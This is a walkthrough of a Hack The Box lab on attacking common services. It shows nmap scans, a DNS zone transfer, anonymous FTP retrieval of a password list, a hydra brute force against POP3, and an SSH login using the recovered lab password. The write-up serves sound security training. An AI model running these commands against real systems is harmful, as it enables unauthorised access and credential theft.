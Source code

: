 # Attacking Common Services - Medium

[Attacking Common Services - Medium](https://academy.hackthebox.com/module/116/section/1467)  

>The second server is an internal server within the `inlanefreight.htb` domain,
>that manages and stores emails and files and serves as a backup of some of the company's processes. 
>From internal conversations, we heard that this is used relatively rarely and, in most cases, has only been used for testing purposes so far.  

## Enumeration  

>NMAP Scans and results:  

```
sudo nmap -p- 10.129.201.127

PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
110/tcp   open  pop3
995/tcp   open  pop3s
2121/tcp  open  ccproxy-ftp
30021/tcp open  unknown
```  

>Detail services and version NMAP scan:  

```
sudo nmap -p 22,53,110,995,2121,30021 -sCV -A -O 10.129.201.127

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
53/tcp    open  domain   ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
110/tcp   open  pop3     Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: USER UIDL CAPA RESP-CODES AUTH-RESP-CODE STLS TOP PIPELINING SASL(PLAIN)
995/tcp   open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: USER UIDL PIPELINING CAPA RESP-CODES TOP AUTH-RESP-CODE SASL(PLAIN)
2121/tcp  open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (InlaneFTP) [10.129.201.127]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
30021/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x   2 ftp      ftp          4096 Apr 18  2022 simon
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Internal FTP) [10.129.201.127]
```  

### DNS  

>Attacking DNS on port 53 UDP.  

>Update local DNS hosts file `etc/hosts` with the IP of `inlanefreight.htb` domain.  

```
sudo vi /etc/hosts
```

>DNS Zone Transfer - use the `dig` utility with DNS query type `AXFR` option to dump the entire DNS namespaces from a vulnerable DNS server:

```
dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
```  

![dns-Attacking-Common-Services-medium](/images/dns-Attacking-Common-Services-medium.png)  

### FTP  

>[Attacking FTP](https://academy.hackthebox.com/module/116/section/1165) directory and files operations.  

>checks if a FTP server on port 30021 allows anonymous logins.  

```
ftp 10.129.201.127 30021

ls -al
cd simon
get mynotes.txt
```

>FTP file retrieved `mynotes.txt` contained the following information:  

```
234987123948729384293
+23358093845098
ThatsMyBigDog
Rock!ng#May
Puuuuuh7823328
8Ns8j1b!23hs4921smHzwn
237oHs71ohls18H127!!9skaP
238u1xjn1923nZGSb261Bs81
```  

### POP3

>[Attacking Email Services](https://academy.hackthebox.com/module/116/section/1173) include smtp, pop3, and IMAP4.  

>The file `mynotes.txt` retrieved from FTP on port `30021` look like list of passwords and can be used in Password Attacks.  

```
hydra -l simon -P mynotes.txt -f 10.129.201.127 pop3
```  

>HYDRA brute force discovered valid credentials for user `simon` against `SSH` and `POP3` services:  

```
[110][pop3] host: 10.129.201.127   login: simon   password: 8Ns8j1b!23hs4921smHzwn

[22][ssh] host: 10.129.201.127   login: simon   password: 8Ns8j1b!23hs4921smHzwn
```  

## Foothold  

>The discovered credentials for Simon allow SSH connection.

```
ssh simon@10.129.201.127

cat flag.txt
```  










                                        